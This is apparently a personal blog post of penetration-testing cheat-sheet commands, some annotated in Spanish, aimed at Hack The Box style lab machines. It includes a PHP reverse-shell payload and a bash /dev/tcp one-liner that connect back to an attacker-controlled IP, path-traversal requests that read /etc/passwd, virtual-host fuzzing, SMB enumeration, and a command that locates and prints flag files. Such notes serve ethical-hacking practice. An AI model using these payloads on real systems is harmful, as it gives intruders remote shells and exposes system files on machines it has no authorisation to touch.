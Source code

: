 ```yaml
---
layout: single
title: Commands for penetration tests - CiberSecurity
excerpt: "These are some of the commands that I use when doing a penetration test."
date: 2022-11-14
classes: wide
header:
  teaser: /assets/images/CiberSecurity-logo.png
  teaser_home_page: true
  icon: /assets/images/CiberSecurity-logo-small-copia.png
categories:
  - CiberSecurity
tags:  
  - InfoSec
  - Ethical Hacking
  - CiberSecurity
---
```

## Virtual hosting
`wfuzz -H "Host: FUZZ.mentorquotes.htb" --hc 302,400 -t 50 -H "User-Agent: DEDSEC" -c -z file,"/usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt" http://mentorquotes.htb/`
## WEBpages
https://gtfobins.github.io/ : userfull to find scalation
https://crackstation.net/ : crack the hashes
https://cve.mitre.org/: Web de CVEs
## PHP
Send a reverse shell to your local machine
```
<?php
system("bash -c 'bash -i >& /dev/tcp/IP_YOUR_LOCAL_MACHINE/443 0>&1'")
?>
```
## LINUX
`md5sum`: validar la integridad de los datos (comparar el has entre dos archivos, si el has es el mismo, es el mismo archivo)
`smbclient -L IP -N`
`smbmap -H IP`
`oathtool`: tool for the key of second factor authentications
`echo $IFS`: nos da un espacio en blanco muy util por si no funciona el espacio en la maquina objetivo
`users of 'adm' group are able to see logs`
`pwncat-cs`: herramienta para hacer puertos facil
`cat exploit | tr -d '/n' | xclip -sel clip`: remove the las '/n' and copy it to the clipboard
`curl -s -X GET "IP" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5" | jq`: GET CURL with Auth Token
`find / \-name user.txt -o -name root.txt 2>/dev/null | xargs cat `
`uname -a`: Kernel version
`openssl s_client -connect 10.10.10.162:443`
`lsb_release -a`
`which mkt | cat -l bash`
`bash -c 'bash -i >& /dev/tcp/IP/443 0>&1'`
`carefull with fail2ban`: program to block the conexions done with python
`$((16#$port))`
`$((0x$port))`
`sort -u`: To order and remove the repeat ones
` "PORTS" | sort -u | while read port; do echo "[+] Puerto $port: $((0x$port)))"; done`
`DOMAIN_NAME/index.php?page=....//....//....//....//....//....//....//....//....//etc/passwd`
`curl -s -X GET "DOMAIN_NAME/index.php?page=../../../../../../../../../etc/passwd" --path-as-is`